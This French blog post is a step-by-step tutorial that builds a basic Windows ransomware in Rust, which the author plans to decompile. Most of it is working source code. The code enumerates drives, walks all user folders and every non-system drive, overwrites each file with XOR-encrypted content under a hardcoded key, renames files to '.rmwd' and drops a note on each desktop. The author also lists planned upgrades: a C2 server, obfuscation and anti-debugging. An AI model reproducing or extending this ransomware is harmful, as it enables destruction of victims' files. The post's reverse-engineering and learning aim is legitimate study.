

L'objectif de ce post est de créer un ransomware pour ensuite le décompiler.

Le ransomware, écrit en Rust, sera très basique. Il va effectuer les actions suivantes:

- Lister les disques de l'ordinateur,
- Lister chaque fichiers des disques détectés précédemment,
- Chiffrer les fichiers des utilisateurs (C:\\Users\\*) et déposer une note sur les différents bureaux si c'est le disque C: sinon il chiffre le disque entier.



**Note**: *J'ai créé la détection d'extensions "interdite" mais elle n'est pas implémentée dans le binaire final car je ne sais pas quelles extensions ne pas chiffrer, pareil pour les dossiers à ne pas chiffrer. Et pour la détection du disque système: je pars du principe qu'il a la lettre C.*

## Le listage des disques

Pour le listage des disques, je vais utiliser la crate [windows](https://crates.io/crates/windows) pour pouvoir utiliser la fonction `GetLogicalDrives` ([documentation](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-getlogicaldrives)).
Cette fonction retourne un nombre décimal, en convertissant ce nombre en bit on peut trouver quelles lettres sont utilisées par les disques. Par exemple, si on a qu'un lecteur et que la lettre C lui est attribué alors la fonction `GetLogicalDrives` retournera 4 car 4 en binaire est 001:

```
 0  0  1
|-||-||-|
 A  B  C
 1  2  4
```

Dans cette exemple, la lettre C a un bit à 1 et les lettres A et B sont à 0. Ce qui signifie que le poste a un disque qui est nommé C.

Donc si on a deux disques, un qui a la lettre C et l'autre E alors la fonction `GetLogicalDrives` retourne 20 car:

```
 0  0  1  0  1
|-||-||-||-||-|
 A  B  C  D  E
 1  2  4  8  16
```

J'ai donc créé cette fonction qui retourne les lettres des disques du poste sous la forme d'un vecteur de caractères.

```Rust
// Retourne un Vec<char> contenant les lettres des disques
pub fn get_disques() -> Vec<char>{
    print!("Disques sous forme décimal: ");
    let mut vec_disques: Vec<char> = Vec::new();
    unsafe{
        // Récupère la liste des disques sous la forme d'un nombre décimal:
        // 1 pour A, 2 pour B, 3 pour A et B, etc
        let disques = FileSystem::GetLogicalDrives();
        println!("{:b}", disques);
        let alphabet  = "ABCDEFGHIJKLMNOPQRSTUVWXYZ";

        // Convertit la liste des disques en format décimal sous un format plus simple
        // Ici pour le disque C on a 00100...
        // le 1 est en 3ème position et la lettre de l'alphabet en 3ème position est le C -> parfait
        let n = disques;
        for i in 0..i32::BITS {
            if !((n >> i & 1)== u32::MIN){
                let lettre_disque: char = alphabet.chars().nth(i.try_into().unwrap()).unwrap();
                println!("Disque {}",lettre_disque);
                vec_disques.push(lettre_disque);
            }
        }
    }
    return vec_disques;
}
```

## Le listage des fichiers

Maintenant qu'on peut lister les disques, il faut lister les fichiers et pour cela je vais utiliser la crate [WalkDir](https://crates.io/crates/walkdir) car elle permet de récupérer facilement la liste des fichiers contenu dans un disque.
En combinant le listage des disques et le listage des fichiers, pour le moment j'obtiens:

```Rust
// Récupération des lettres des disques
let liste_disques: Vec<char> = disques::get_disques();

//Pour chaque lettre de disque
for lettre_disque in liste_disques.iter(){
    let disque = lettre_disque.to_string();
    // Ajout du ":/" après la lettre du disque sinon WalkDir liste les fichiers du dossier courant
    let disque_chemin = [disque,":/".to_string()].concat();
    // Pour chaque fichier (en ignorant les erreurs)
    for entry in WalkDir::new(disque_chemin).into_iter().filter_map(|e| e.ok()) {
        let entry = entry.unwrap();
        // Affichage du chemin du fichier
    	println!("{}", entry.path().display());
    }
}
```

## Le chiffrement

Pour le chiffrement, je vais utiliser une fonction qui permet de chiffrer une chaîne de caractères à l'aide d'une clé.
[Cette fonction](https://programming-idioms.org/idiom/307/xor-encrypt-decrypt-string/5732/rust) utilise la porte logique [XOR](https://fr.wikipedia.org/wiki/Fonction_OU_exclusif):

```Rust
fn xor(s: Vec<u8>, key: &[u8]) -> Vec<u8> {
    let mut b = key.iter().cycle();
    s.into_iter().map(|x| x ^ b.next().unwrap()).collect()
}
```

Puis j'ai créé une fonction `chiffrer` qui prend en paramètre une chaîne de caractères (dans notre cas, ça va être le contenu d'un fichier) puis qui chiffre cette chaîne de caractères grâce à la fonction `xor` ci-dessus. La chaîne de caractère est ensuite renvoyée:

```Rust
pub fn chiffrer(contenu_fichier: String) -> String{
    let key = b"uneclefvraimenttreslongue";
    let string_chiffrer = xor(contenu_fichier.into_bytes(), key.as_slice());
    return str::from_utf8(&string_chiffrer).unwrap().to_string();
}
```

## L'ouverture et l'écriture de fichier

Bon, on peut lister les fichiers et on peut chiffrer des chaînes de caractère. Maintenant, il nous faut pouvoir ouvrir des fichiers et écrire à l'intérieur.

Pour ça, je vais utiliser la crate [std::fs](https://doc.rust-lang.org/std/index.html) et je vais tout simplement réécrire les exemples qui sont dans la documentation en les modifiant légèrement pour qu'elles prennent en paramètre le chemin/contenu d'un fichier.

Ce qui donne pour l'ouverture cette fonction:

```Rust
//Permet de récupérer le contenu d'un fichier
// src: https://doc.rust-lang.org/std/fs/struct.File.html
pub fn ouvrir_fichier(chemin_fichier: String) -> std::io::Result<String> {
    let mut file = File::open(chemin_fichier)?;
    let mut contents = String::new();
    file.read_to_string(&mut contents)?;
    Ok(contents)
}
```

Et pour l'écriture:

```Rust
//Permet d'écrire dans un fichier, si le fichier n'existe pas alors il est créer
//src: https://doc.rust-lang.org/std/fs/struct.File.html
pub fn ecrire_fichier(chemin_fichier: String, texte_a_ecrire: String) -> std::io::Result<()> {
    let mut file = File::create(chemin_fichier)?;
    file.write(&texte_a_ecrire.into_bytes())?;
    Ok(())
}
```

## Récupération de la liste des utilisateurs et dépôt de la note

J'ai créer une fonction `get_chemin_utilisateurs` qui me renvoie la liste des chemins des utilisateurs (par exemple C:\\Users\\Alexidre) en supprimant les utilisateurs par défaut comme "All Users" ou encore "Public".

Pour cette fonction j'utilise encore une fois la crate [std::fs](https://doc.rust-lang.org/std/index.html) pour lire les dossiers qui sont dans C:\\Users puis je vérifie que chaque dossiers dans ce répertoire n'est pas un utilisateur par défaut, si ce n'est pas le cas alors il est ajouté dans un Vec&lt;String&gt;.

```Rust
//Cette fonction permet de récupérer les chemins des utilisateurs qui ne sont pas des utilisateurs pas défaut.
//Retourne le résultat sous la forme d'un Vec<String>
pub fn get_chemin_utilisateurs() -> Vec<String>{
    let mut liste_utilisateur: Vec<String> = Vec::new();

    let chemin_vers_utilisateurs = read_dir("C:\\Users").unwrap();

    let liste_utilisateurs_defaut: [&str; 5] = ["All Users", "Default", "Default User", "desktop.ini", "Public"];

    for utilisateur in chemin_vers_utilisateurs {
        let chemin_utilisateur: String = utilisateur.unwrap().path().display().to_string(); 
        let mut est_par_defaut: bool = false;
        for utilisateur_par_default in liste_utilisateurs_defaut{
            let utilisateur_par_default = ["C:\\Users\\",utilisateur_par_default].concat();
            if utilisateur_par_default == chemin_utilisateur{
                est_par_defaut = true;
                break;
            }
        }
        //Si l'utilisateur n'est pas un utilisateur par défaut alors ajout dans le vecteur
        if !est_par_defaut{
            liste_utilisateur.push(chemin_utilisateur);
        }
    }

    return liste_utilisateur;
}
```

Grâce à la fonction `get_chemin_utilisateurs`, je peux écrire une note sur chaque bureau:

```Rust
//Cette fonction permet d'écrire une note sur le bureau de tous les utilisateurs
pub fn note_tous_les_utilisateurs(){
    let note: String = "Oh non.\nC'est malin.".to_string();

    let liste_chemin_utilisateurs: Vec<String> = get_chemin_utilisateurs();

    for chemin_utilisateur in liste_chemin_utilisateurs{
        ecrire_fichier([chemin_utilisateur,"\\Desktop\\note.txt".to_string()].concat(), note.clone()).unwrap();
    }
}
```

## Ajout d'une extension aux fichiers

J'ai aussi créer une fonction toute simple qui remplace l'extension des fichiers par l'extension ".rmwd".

```Rust
//Renomme le fichier avec l'extension rmwd
pub fn renommer_fichier(chemin_fichier: String) -> std::io::Result<()>{
    let extension: String = get_extension_fichier(chemin_fichier.clone());
    let fichier_sans_extension: &str = chemin_fichier.trim_end_matches(&extension);
    let fichier_remplacer: String = [fichier_sans_extension,"rmwd"].concat();
    rename(chemin_fichier.clone(), fichier_remplacer.clone())?;
    println!("Sans extension: {}", chemin_fichier);
    println!("Avec extension: {}", fichier_remplacer);
    Ok(())
}
```

Rien d'extraordinaire, la fonction `get_extension_fichier` ressemble à ceci:

```Rust
//Récupère l'extension du fichier
//Retourne l'extension sous la forme d'un String
//Exemple: "C:\note.txt" retournera "txt"
pub fn get_extension_fichier(chemin_fichier: String) -> String{
    let chemin: &Path = Path::new(&chemin_fichier);
    let extension = chemin.extension();
    let mut renvoie = String::from("");
    if extension.is_none(){
        println!("Impossible de récupérer l'extension du fichier");
    }
    else{
        // Regardez pas trop près, vous allez vous faire mal aux yeux
        renvoie = extension.unwrap().to_str().unwrap().to_string();
    }
    return renvoie.to_string();
}
```

## La fonction main

Pour finir, voici la fonction main:

```Rust
fn main() {
    // Récupération de la liste des disques
    let liste_disques: Vec<char> = disques::get_disques();

    // Récupération des chemins des utilisateurs
    let chemins_utilisateurs = get_chemin_utilisateurs();

    //Chiffre les fichiers des utilisateurs
    for chemin_utilisateur in chemins_utilisateurs{
        for entry in WalkDir::new(chemin_utilisateur).into_iter().filter_map(|e| e.ok()) {
            let chemin_fichier = entry.path().display().to_string();
            println!("{}", chemin_fichier);

            if entry.metadata().unwrap().is_file(){
                let fichier_extension = get_extension_fichier(chemin_fichier.clone());
    
                if fichier_extension.is_empty().not(){
                    match ouvrir_fichier(chemin_fichier.clone()) {
                        Ok(fichier_ouvert) => {
                            let contenu_chiffrer = chiffrer(fichier_ouvert);
                            match ecrire_fichier(chemin_fichier.clone(), contenu_chiffrer) {
                                Ok(_ok) => renommer_fichier(chemin_fichier).expect("Impossible de renommer le fichier"),
                                Err(_e) => println!("Impossible de chiffrer le fichier"),
                            }
                        },
                        Err(_fichier_ouvert) => {
                            continue;
                        },
                    }
                }
            }
        }
    }

    for lettre_disque in liste_disques.iter(){
        let disque_c = 'C';
        if lettre_disque != &disque_c {
            let disque = lettre_disque.to_string();

            //Ajout de ":/" après chaque lettre de disque. Exemple: C devient C:/
            let disque_chemin = [disque,":/".to_string()].concat();

            // Pour chaque entrée (fichiers et dossiers)... + ignore les erreurs
            for entry in WalkDir::new(disque_chemin).into_iter().filter_map(|e| e.ok()) {
            //for entry in WalkDir::new(disque_chemin).into_iter().filter_map(|e| e.ok()) {
                let chemin_fichier = entry.path().display().to_string();
                println!("{}", chemin_fichier);

                // Verifie que le chemin donné est un fichier
                if entry.metadata().unwrap().is_file(){
                    let fichier_extension = get_extension_fichier(chemin_fichier.clone());
                    //println!("Extension: {}", fichier_extension);

                    //Certains fichiers n'ont pas d'extension
                    if fichier_extension.is_empty().not(){
                        match ouvrir_fichier(chemin_fichier.clone()) {
                            Ok(fichier_ouvert) => {
                                let contenu_chiffrer = chiffrer(fichier_ouvert);
                                match ecrire_fichier(chemin_fichier.clone(), contenu_chiffrer) {
                                    Ok(_ok) => renommer_fichier(chemin_fichier).expect("Impossible de renommer le fichier"),
                                    Err(_e) => println!("Impossible de chiffrer le fichier"),
                                }
                            },
                            Err(_fichier_ouvert) => {
                                continue;
                            },
                        }
                    }
                }
            }
        }
    }
    note_tous_les_utilisateurs();
}
```

Pas parfaite mais elle fonctionne !

On commence par l'énumération des disques et par la récupération des chemins des utilisateurs, on chiffre tous les fichiers qui sont dans C:\\Users puis on passe aux autres disques. Enfin, on laisse une note sur le bureau.

## Pistes potentielles d'améliorations

Ce "ransomware" est très basique:

- La clé de chiffrement est en clair,
- Il y a rien de mit en place pour échapper aux anti-virus: lorsque j'ai réalisé mes tests sur une VM Windows 10 22H2, le binaire a été détecté comme malveillant 10-15 minutes après sa première exécution par Windows Defender,
- Le "chiffrement" se fait avec XOR,
- La phase de chiffrement est longue: sur ma VM, qui utilise un disque dur et non un SSD, le chiffrement a prit un bon 5 minutes alors que la session avait à peine quelques Mo de données (2 fichiers texte) principalement car il regardait ce qu'il y avait dans AppData,
- On va pas se le cacher mais son implémentation est très bancale et plutôt aléatoire.

Donc, un de mes futurs projets sera de:

- Créer un serveur C2 et y faire appel pour la clé de chiffrement et autres paramètres,
- Mettre en place des technique d'anti-débogage et d’obfuscation,
- Choisir un "meilleur" chiffrement et travailler sur sa vitesse.

Mais avant tout ça, je vais décompiler mon ransomware !